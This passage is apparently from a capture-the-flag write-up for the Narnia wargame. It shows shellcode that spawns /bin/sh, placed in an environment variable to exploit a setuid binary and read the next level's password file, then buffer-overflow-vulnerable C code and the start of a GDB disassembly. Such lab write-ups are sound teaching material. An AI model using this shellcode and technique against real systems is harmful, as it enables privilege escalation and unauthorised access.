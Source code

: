 This level is pretty straight forward. The program looks for an environment variable called `EGG` and executes its contents. Let's give it some shellcode to execute.

```sh
 export EGG=$(python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')
```

We've now placed the shellcode in the `EGG` environment variable. Time to execute the the binary.

```sh
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
**********
```

## Level 2

```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
	char buf[128];

	if(argc == 1){
		printf("Usage: %s argument\n", argv[0]);
		exit(1);
	}
	strcpy(buf,argv[1]);
	printf("%s", buf);

	return 0;
}
```

This level's program is extremely simple. It takes a single argument, copies the argument's value into a buffer, and prints the buffer. Using knowledge of stack frames and buffer overflows we should be able to exploit this code to gain root. To complete this level we'll need to use **GBD** to assist us in debugging the binary. Let's start by entering GDB and dumping the assembly code to see what we're working with. Enter `gdb narnia2` to start the debugger.

SIDE NOTE: [DarkDust](http://darkdust.net/files/GDB%20Cheat%20Sheet.pdf) has a great cheat sheet for GDB commands.

```
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804845d <+0>:	push   ebp
   0x0804845e <+1>:	mov    ebp,esp
   0x08048460 <+3>:	and    esp,0xfffffff0
   0x08048463 <+6>:	sub    esp,0x90
   0x08048469 <+12>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x0804846d <+16>:	jne    0x8048490 <main+51>
   0x0804846f <+18>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048472 <+21>:	mov    eax,DWORD PTR [eax]
   0x08048474 <+23>:	mov    DWORD PTR [esp+0x4],eax
   0x08048478 <+27>:	mov    DWORD PTR [esp],0x8048560
   0x0804847f <+34>:	call   0x8048310 <printf@plt>
   0x08048484 <+39>:	mov    DWORD PTR [esp],0x1
   0x0804848b <+46>:	call   0x8048340 <exit@plt>
   0x08048490 <+51>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048493 <+54>:	add    eax,0x4
```